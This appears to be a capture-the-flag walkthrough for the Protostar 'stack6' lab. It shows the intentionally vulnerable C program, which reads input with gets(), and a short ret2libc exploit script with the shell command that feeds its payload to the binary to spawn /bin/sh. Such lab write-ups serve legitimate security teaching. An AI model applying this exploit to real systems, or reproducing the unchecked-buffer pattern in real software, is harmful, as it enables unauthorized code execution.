



# Stack6

## Description
Stack6 looks at what happens when you have restrictions on the return address.
This level can be done in a couple of ways, such as finding the duplicate of the payload ( objdump -s will help with this), or ret2libc , or even return orientated programming.
It is strongly suggested you experiment with multiple ways of getting your code to execute here.

## Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```
## Solution 
On looking the code we can see that we cannot jump to the stack as the if condition exits the program. So we have to perform a ret2libc attack on this code. We can execute this shell by executing /bin/sh in the libc. We can find the address of system. 

Then we can find the address of /bin/sh in the libc.
 
After this we can write a script for buffer overflow and locating libc and returning to /bin/sh. This can done through following command and script
```bash
(python /tmp/s/script.py ; cat) | /opt/protostar/bin/stack6
```
### Script.py
```python
import struct

padding = '1'*80
sys = struct.pack("I",0xb7ecffb0)
ret = "aaaa"
bin = struct.pack("I",0xb7fb63bf)

print(padding+sys+ret+bin)
```
